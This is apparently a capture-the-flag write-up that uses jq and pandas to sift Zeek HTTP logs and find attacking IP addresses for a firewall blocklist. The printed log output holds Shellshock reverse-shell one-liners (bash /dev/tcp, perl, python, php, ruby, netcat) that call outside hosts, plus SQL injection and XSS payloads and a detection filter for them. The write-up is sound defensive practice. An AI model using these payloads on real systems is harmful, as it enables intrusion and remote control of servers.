




# Sleigh Route Finder

https://srf.elfu.org/

## Initial Zeek Logs Exploration

We are given a 41MB log file `http.log`. I do quite a bit of data science in my day job, so there are some good practices I have picked up along the way whenever I get a set of new logs that I have no context what is in it. The first thing we should not do is simply open the file, but do a check on the structure of the file. Besides using `ls -l` to look at the file size, I would also do a wordcount with `wc http.log`. Interestingly, this shows that `http.log` has 0 lines. Why this matters is if we do a `head` on the log file, we simply get all the contents printed out to us as the file does not seem to be carriage return delimited. Instead we do `less http.log`.

```
[{"ts": "2019-10-05T06:50:42-0800", "uid": "ClRV8h1vYKWXN1G5ke", "id.orig_h": "238.27.231.56", "id.orig_p": 60677, "id.resp_h": "10.20.3.80", "id.resp_p": 80, "trans_depth": 1, "method": "GET", "host": "srf.elfu.org", "uri": "/14.10/Google/", "referrer": "-", "version": "1.0", "user_agent": "Mozilla/5.0 (Windows; U; Windows NT 5.1; fr; rv:1.9.2b4) Gecko/20091124 Firefox/3.6b4 (.NET CLR 3.5.30729)", "origin": "-", "request_body_len": 0, "response_body_len": 232, "status_code": 404, "status_msg": "Not Found", "info_code": "-", "info_msg": "-", "tags": "(empty)", "username": "-", "password": "-", "proxied": "-", "orig_fuids": "-", "orig_filenames": "-", "orig_mime_types": "-", "resp_fuids": "FUPWLQXTNsTNvf33", "resp_filenames": "-", "resp_mime_types": "text/html"}, {"ts": "2019-10-05T06:50:42-0800", "uid": "ClRV8h1vYKWXN1G5ke", "id.orig_h": "54.242.225.110", "id.orig_p": 60677, "id.resp_h": "10.20.3.80", "id.resp_p": 80, "trans_depth": 2, "method": "GET", "host": "srf.elfu.org", "uri": "/api/weather?station_id=2992224,6052153,711134,3464708,4626739,99060,4381866,7850358", "referrer": "-", "version": "1.0", "user_agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_1; en-US) AppleWebKit/533.4 (KHTML, like Gecko) Chrome/5.0.375.86 Safari/533.4", "origin": "-", "request_body_len": 0, "response_body_len": 3880, "status_code": 200, "status_msg": "OK", "info_code": "-", "info_msg": "-", "tags": "(empty)", "username": "-", "password": "-", "proxied": "-", "orig_fuids": "-", "orig_filenames": "-", "orig_mime_types": "-", "resp_fuids": "FGDCoD4QXeSiJbb0Nk", "resp_filenames": "-", "resp_mime_types": "application/json"}, ...
```

The file seems to be in the JSON format. This is typical of unstructured data, and can seem pretty intimidating to have to crawl through. Thankfully, we have `jq` that allows us to query JSON files in a similar way to MySQL.

If we simply want the first entry in `http.log`, we can use `jq .[0] http.log`.

```
{
  "ts": "2019-10-05T06:50:42-0800",
  "uid": "ClRV8h1vYKWXN1G5ke",
  "id.orig_h": "238.27.231.56",
  "id.orig_p": 60677,
  "id.resp_h": "10.20.3.80",
  "id.resp_p": 80,
  "trans_depth": 1,
  "method": "GET",
  "host": "srf.elfu.org",
  "uri": "/14.10/Google/",
  "referrer": "-",
  "version": "1.0",
  "user_agent": "Mozilla/5.0 (Windows; U; Windows NT 5.1; fr; rv:1.9.2b4) Gecko/20091124 Firefox/3.6b4 (.NET CLR 3.5.30729)",
  "origin": "-",
  "request_body_len": 0,
  "response_body_len": 232,
  "status_code": 404,
  "status_msg": "Not Found",
  "info_code": "-",
  "info_msg": "-",
  "tags": "(empty)",
  "username": "-",
  "password": "-",
  "proxied": "-",
  "orig_fuids": "-",
  "orig_filenames": "-",
  "orig_mime_types": "-",
  "resp_fuids": "FUPWLQXTNsTNvf33",
  "resp_filenames": "-",
  "resp_mime_types": "text/html"
}
```

That looks much better. By reading up the <a href='https://stedolan.github.io/jq/manual/'>jq manual</a>, we could probably come up with all kinds of queries to answer questions we have about the logs. However, I am more familiar with the <a href='https://pypi.org/project/pandas/'>pandas python library</a>, and I hope to showcase it for this challenge.

## Gaining Access To The Web Application



Before we start, we need to figure out how to login. In the Elfscrow challenge, we managed to decrypt an encrypted PDF that provides the documentation for the Sleigh Route Finder. Inside the PDF, it states that the default credentials can be found in the readme in the ElfU Research Labs git repository. There isn't such a git repository that we have access to, but there are 2 ways that we can find out where the readme is. The first (which is what I thought of first) was to think about the last time I set up something from a `git clone`, I simply left the `README.md` in the root directory of the application. So I just tried to browse to https://srf.elfu.org/README.md and lo and behold, the credentials were there for the taking.

The other way (which I felt was more "proper") was to use the 200 status codes in the logs to form a sitemap and see whether the filepath to the readme would show up there.

```
$ jq 'select(.[].status_code == 200) | .[].uri | split("?")[0]' http.log | grep -i readme
```

```
$ ipython
Python 3.7.5 (default, Oct 27 2019, 15:43:29)
Type 'copyright', 'credits' or 'license' for more information
IPython 7.10.2 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import pandas as pd

In [2]: import os

In [3]: import json

In [4]: with open('http.log', 'r') as f:
   ...:     raw = json.load(f)
   ...:

In [5]: df = pd.DataFrame(raw)

In [6]: df.head()
Out[6]:
                         ts                 uid       id.orig_h  ...          resp_fuids resp_filenames   resp_mime_types
0  2019-10-05T06:50:42-0800  ClRV8h1vYKWXN1G5ke   238.27.231.56  ...    FUPWLQXTNsTNvf33              -         text/html
1  2019-10-05T06:50:42-0800  ClRV8h1vYKWXN1G5ke  54.242.225.110  ...  FGDCoD4QXeSiJbb0Nk              -  application/json
2  2019-10-05T06:50:47-0800   CFlKL1g3ONQ6kQVjh  228.31.136.253  ...  Foi9Nx2BRhARDcWGJe              -  application/json
3  2019-10-05T06:51:43-0800  CIVP9g3YeQTUEdazk6  181.79.241.231  ...  FqHOg84ZQBiDsM6tq3              -  application/json
4  2019-10-05T06:51:49-0800   C7Erxw6CZFJlrkQe3  228.75.175.207  ...  FbuO1h1tuN8AT1n3wc              -  application/json

[5 rows x 30 columns]

In [7]: df[(df['status_code'] == 200) & (df['uri'].str.contains('readme', case=False))]['uri'].unique()
Out[7]: array(['/README.md'], dtype=object)
```

Before I continue, I would like to go through how to set up a more sane environment to be making all these queries. Introducing Jupyter Notebooks!

## Setting Up A Jupyter Notebook Environment

You will first need to install Jupyter.

```
$ pip install jupyter
```

Once that is done, you can start a jupyter notebook server in whatever directory you are in. Simply navigate to your working directory and run the following command.

```
$ jupyter notebook
```

You should see your jupyter notebook server startup, and automatically open in your default browser.



Click `New > Python` in the upper right hand corner of the window to create a new notebook. You should see a new tab open.



Basically Jupyter is an interactive IDE where you can sepearte your code into blocks and run each of them individually. The environment and variables declared in each notebook is shared with all code blocks, and the order of code execution can jump from block to block. THe output for each code block is also displayed and saved after running a code block, meaning you don't have to rerun the entire notebook just to make small changes. All this makes more sense the more you use it, but it is a favorite enviroment for developing Python code in Data Science and Machine Learning.

Let's import `pandas` and read the `http.log` file into the notebook. Each code block can be executed by pressing `Shift + Enter` (to go to the next code block) or `Ctrl + Enter` (to remain at the same code block). The number in the square brackets show the order in which the code blocks were executed.



Now our entire log file can be accessed using the pandas Dataframe object, `df`.

## Initial Log Exploration

One of the first things I would do is to look at the number of unique values for each column. We can do that using `df.nunique()`.

```
In [5]: df.nunique()
Out[5]: ts                   17110
		uid                  30597
		id.orig_h            55117
		id.orig_p            19516
		id.resp_h            1    
		id.resp_p            1    
		trans_depth          388  
		method               2    
		host                 11   
		uri                  25568
		referrer             3    
		version              3    
		user_agent           4949 
		origin               3    
		request_body_len     37   
		response_body_len    400  
		status_code          4    
		status_msg           4    
		info_code            2    
		info_msg             2    
		tags                 1    
		username             12   
		password             1    
		proxied              5    
		orig_fuids           1320 
		orig_filenames       1    
		orig_mime_types      3    
		resp_fuids           43494
		resp_filenames       50   
		resp_mime_types      8    
		dtype: int64
```

From here, I usually like to explore the columns that have a few unique values in them. 1 unique value is boring, because it means all rows have the same value. Tens of thousands are difficult to look through, because it means most rows will have different values. So we should look at things that have a more manageable number, like `host` and `username` where there are only 12 unique values.

```
In [6]: df.groupby('host').size()
Out[6]: host
		-                                                               8728 
		10.20.3.80                                                      8958 
		<script>alert('automatedscanning');</script>&action=item        1    
		<script>alert('automatedscanning');</script>&function=search    1    
		<script>alert(\"automatedscanning\");</script>                  1    
		<script>alert(\"automatedscanning\");</script>&from=add         1    
		<script>alert(\"automatedscanning\")</script>alert(\"avdscan-681165131\");d('                        1    
		<script>alert(automatedscanning)</script>                       1    
		srf.elfu.org                                                    37416
		ssrf.elfu.org                                                   12   
		dtype: int64
```

```
In [7]: df.groupby('username').size()
Out[7]: username
		' or '1=1    4    
		(empty)      4    
		-            55098
		-r nessus    1    
		6666         3    
		Admin        1    
		admin        4    
		comcomcom    1    
		q1ki9        2    
		root         1    
		servlet      1    
		support      1    
		dtype: int64
```

This is great! We have already found some bad traffic such as XSS in the `host` column and SQLi in the `username` column.

This is good for finding bad traffic in columns with a small number of unique values, but what about columns with a large number of unique values such as `uri` and `user_agent`?

We can use boolean filters to search our Pandas Dataframe the same way we would in a regex search across strings if we know what we are looking for. Let's try searching for `>` inside the `uri` column. The first expression in the square brackets is the boolean filter, and the second expression in the square brackets is the columns we are interested in.

```
In [8]: df[(df['uri'].str.contains(">", case=False))][['id.orig_h', 'uri']]
Out[8]: 		id.orig_h      uri
		482     56.5.47.137    /logout?id=<script>alert(1400620032)</script>&ref_a=avdsscanning\"><script>alert(1536286186)</script>
		1532    19.235.69.221  /api/weather?station_id=<script>alert(1)</script>.html
		2514    69.221.145.150 /api/measurements?station_id=<script>alert(60602325)</script>
		3520    42.191.112.181 /api/weather?station_id=<script>alert(autmatedsacnningist)</script>
		4506    48.66.193.176  /api/weather?station_id=<script>alert(automatedscaning)</script>
		5502    49.161.8.58    /api/stations?station_id=<script>alert('automatedscanning')</script>
		6482    84.147.231.129 /api/weather?station_id=<script>alert('automatedscanning');</script>
		7506    44.74.106.131  /api/stations?station_id=<script>alert(\"automatedscanning\")</script>
		8464    106.93.213.219 /api/weather?station_id=<script>alert(\"automatedscanning\")</script>;
```

We can then chain together several boolean filters in order to get our list of offending IP addresses. This may take some experimentation in the various columns and things to search for, but my experience is that the Jupyter environment makes such testing really quick and smooth.

## Final Boolean Filter List

In the end, this is the filter that I used to find all LFI, XSS, SQLi, and Shellshock traffic that were in the logs.

```
df1 = df[(df['username'].str.contains("'", case=False)) |
         (df['username'].str.contains('"', case=False)) |
         (df['host'].str.contains('script', case=False)) |
         (df['user_agent'].str.contains("'", case=False)) |
         (df['user_agent'].str.contains('"', case=False)) |
         (df['user_agent'].str.contains('<', case=False)) |
         (df['user_agent'].str.contains('>', case=False)) |
         (df['user_agent'].str.contains('union', case=False)) |
         (df['user_agent'].str.contains('\\\\', case=False)) |
         (df['user_agent'].str.contains('\\(\\)', case=False)) |
         (df['user_agent'].str.contains('\\/\\*\\*\\/', case=False)) |
         (df['user_agent'].str.contains('/etc/', case=False)) |
         (df['user_agent'].str.contains('\\|', case=False)) |
         (df['user_agent'].str.contains('\\(\\)\\s*\\t*\\{.*;\\s*\\}\\s*', case=False)) |
         (df['uri'].str.contains("'", case=False)) |
         (df['uri'].str.contains('"', case=False)) |
         (df['uri'].str.contains('%', case=False)) |
         (df['uri'].str.contains('\\(\\)\\s*\\t*\\{.*;\\s*\\}\\s*', case=False)) |
         (df['uri'].str.contains('/\\*', case=False)) |
         (df['uri'].str.contains("\\|", case=False)) |
         (df['uri'].str.contains('union', case=False)) |
         (df['uri'].str.contains('\\/\\*\\*\\/', case=False)) |
         (df['uri'].str.contains('<', case=False)) |
         (df['uri'].str.contains('>', case=False)) |
         (df['uri'].str.contains('\\\\', case=False)) |
         (df['uri'].str.contains('/bin/bash', case=False)) |
         (df['uri'].str.contains('/etc/', case=False))]
```

We use the `len` function to determine how many IP addresses we have.

```
In [10]: len(list(set(df1['id.orig_h'].values)))
Out[10]: 62
```

The firewall expects the input to be a list of IP addresses separated by commas. We can easily get this csv format by joining the list of IP addresses with the following Python command.

```
In [11]: print(','.join(list(df1['id.orig_h'].values)))
Out[11]: 42.103.246.250,56.5.47.137,19.235.69.221,69.221.145.150,42.191.112.181,48.66.193.176,49.161.8.58,84.147.231.129,44.74.106.131,106.93.213.219,2.230.60.70,10.155.246.29,225.191.220.138,75.73.228.192,249.34.9.16,27.88.56.114,238.143.78.114,121.7.186.163,106.132.195.153,129.121.121.48,190.245.228.38,34.129.179.28,135.32.99.116,2.240.116.254,45.239.232.245,102.143.16.184,230.246.50.221,131.186.145.73,253.182.102.55,229.133.163.235,23.49.177.78,223.149.180.133,33.132.98.193,84.185.44.166,254.140.181.172,150.50.77.238,187.178.169.123,116.116.98.205,9.206.212.33,28.169.41.122,68.115.251.76,118.196.230.170,173.37.160.150,81.14.204.154,135.203.243.43,186.28.46.179,13.39.153.254,111.81.145.191,0.216.249.31,31.254.228.4,220.132.33.81,83.0.8.119,150.45.133.97,229.229.189.246,227.110.45.126,61.110.82.125,65.153.114.120,123.127.233.97,95.166.116.45,80.244.147.207,168.66.108.62,200.75.228.240
```

## Pivoting From Known Bad Traffic

Now that we have the known bad traffic, we still have to find other IP addresses that are related to these bad traffic. One technique usually used is to pivot based on the User-Agent fields. This is however not a guarantee as legitimate traffic may also share the same User-Agent string as bad traffic. A simple way to estimate whether the User-Agent should be part of the list of bad traffic is to look at its "unique-ness". If few IP addresses in the logs have such a User-Agent string, then it is probably bad. If several IP addresses share the same User-Agent string, then it may not necessarily be bad.

```
In [12]: pd.DataFrame(df[df['user_agent'].isin(df1['user_agent'].values)].groupby('user_agent').size().sort_values(ascending=False))
Out[12]: user_agent	
		 Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5	17
		 Mozilla/5.0 (Windows; U; Windows NT 5.2; sk; rv:1.8.1.15) Gecko/20080623 Firefox/2.0.0.15	11
		 Mozilla/5.0 (Macintosh; U; PPC Mac OS X 10_4_11; fr) AppleWebKit/525.18 (KHTML, like Gecko) Version/3.1.2 Safari/525.22	11
		 Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071004 Firefox/2.0.0.8 (Debian-2.0.0.8-1)	10
		 Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)	5
		 1' UNION SELECT 1,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x6e,0x69,0x6e,0x67,,3,4,5,6,7,8 -- '	3
		 Wget/1.9+cvs-stable (Red Hat modified)	2
		 Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)	2
		 Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)	2
		 RookIE/1.0	2
		 Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)	2
		 Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )	2
		 Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)	2
		 Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)	2
		 Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)	2
		 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)	2
		 Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)	2
		 Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)	2
		 Mozilla/4.0 (compatible; Metasploit RSPEC)	2
		 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)	2
		 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR 1.1.4322)	2
		 Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)	2
		 Mozilla/4.0 (compatible MSIE 5.0;Windows_98)	2
		 Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N	2
		 HttpBrowser/1.0	2
		 CholTBAgent	2
		 Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)	2
		 Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)	2
		 Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6.	2
		 Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13	2
		 Opera/8.81 (Windows-NT 6.1; U; en)	2
		 Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)	2
		 Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)	2
		 Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1	2
		 Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)	2
		 Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)	2
		 Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731	2
		 Mozilla/5.0 WinInet	2
		 Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0	2
		 Mozilla/5.0 (Windows NT 10.0;Win64;x64)	2
		 Mozilla/5.0 (Windows NT 5.1 ; v.)	2
		 Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19	1
		 () { :; }; /bin/bash -i >& /dev/tcp/31.254.228.4/48051 0>&1	1
		 () { :; }; /usr/bin/perl -e 'use Socket; 𝑖="83.0.8.119"; p=57432;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in( 𝑝,𝑖𝑛𝑒𝑡𝑎𝑡𝑜𝑛( i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'	1
		 () { :; }; /usr/bin/php -r '$sock=fsockopen("229.229.189.246",62570);exec("/bin/sh -i <&3 >&3 2>&3");'	1
		 () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("150.45.133.97",54611));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'	1
		 () { :; }; /usr/bin/ruby -rsocket -e'f=TCPSocket.open("227.110.45.126",43870).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'	1
		 1' UNION SELECT '1','2','automatedscanning','1233627891','5'/*	1
		 1' UNION SELECT -1,'autosc','test','O:8:\"stdClass\":3:{s:3:\"mod\";s:15:\"resourcesmodule\";s:3:\"src\";s:20:\"@random41940ceb78dbb\";s:3:\"int\";s:0:\"\";}',7,0,0,0,0,0,0 /*	1
		 1' UNION SELECT 1,1409605378,1,1,1,1,1,1,1,1/*&blogId=1	1
		 1' UNION SELECT 1729540636,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x65,0x72, --	1
		 1' UNION/**/SELECT/**/1,2,434635502,4/*&blog=1	1
		 1' UNION/**/SELECT/**/994320606,1,1,1,1,1,1,1/*&blogId=1	1
		 Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36	1
		 Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36	1
		 Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30	1
		 Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1	1
		 Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1	1
		 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12	1
		 () { :; }; /bin/bash -c '/bin/nc 55535 220.132.33.81 -e /bin/bash'	1
```

So where do we draw the line on what counts as non-unique User-Agent strings? Since the challenge tells us that we expect about 100 bad IP addresses, we can start counting from those that have 2 unique IP addresses, and increase that number until we hit near 100.

Based on this, we end up with 5 being the maximum number of unique IP addresses that would label the User-Agent string as being from bad traffic.

```
In [13]: ua_df = pd.DataFrame(df[df['user_agent'].isin(df1['user_agent'].values)].groupby('user_agent').size().sort_values(ascending=False))
		 df2 = df[df['user_agent'].isin(ua_df[ua_df[0] <= 5].index)]
		 len(df2)
Out[13]: 97
```

```
In [14]: print(','.join(set(df2['id.orig_h'].values)))
Out[14]: 111.81.145.191,42.191.112.181,168.66.108.62,217.132.156.225,106.132.195.153,135.32.99.116,231.179.108.238,45.239.232.245,83.0.8.119,173.37.160.150,187.152.203.243,66.116.147.181,253.182.102.55,44.74.106.131,10.122.158.57,23.49.177.78,220.132.33.81,229.133.163.235,95.166.116.45,200.75.228.240,226.102.56.13,118.196.230.170,87.195.80.126,34.155.174.167,252.122.243.212,42.103.246.250,34.129.179.28,42.103.246.130,92.213.148.0,190.245.228.38,31.254.228.4,10.155.246.29,104.179.109.113,226.240.188.154,68.115.251.76,56.5.47.137,250.22.86.40,238.143.78.114,103.235.93.133,9.206.212.33,135.203.243.43,249.34.9.16,150.45.133.97,37.216.249.50,131.186.145.73,102.143.16.184,187.178.169.123,106.93.213.219,13.39.153.254,0.216.249.31,142.128.135.10,148.146.134.52,29.0.183.220,69.221.145.150,61.110.82.125,27.88.56.114,28.169.41.122,22.34.153.164,118.26.57.38,253.65.40.39,80.244.147.207,31.116.232.143,227.110.45.126,2.240.116.254,19.235.69.221,249.237.77.152,230.246.50.221,229.229.189.246,75.73.228.192,116.116.98.205,42.127.244.30,81.14.204.154,2.230.60.70,84.147.231.129,186.28.46.179,223.149.180.133,121.7.186.163,185.19.7.133,65.153.114.120,44.164.136.41,42.16.149.112,53.160.218.44,126.102.12.53,50.154.111.0,249.90.116.138,158.171.84.209,123.127.233.97,203.68.29.5,140.60.154.239,225.191.220.138,97.220.93.190,48.66.193.176,129.121.121.48,49.161.8.58
```

Submiting this list of IP addresses into `https://srf.elfu.org/` gets us the flag.

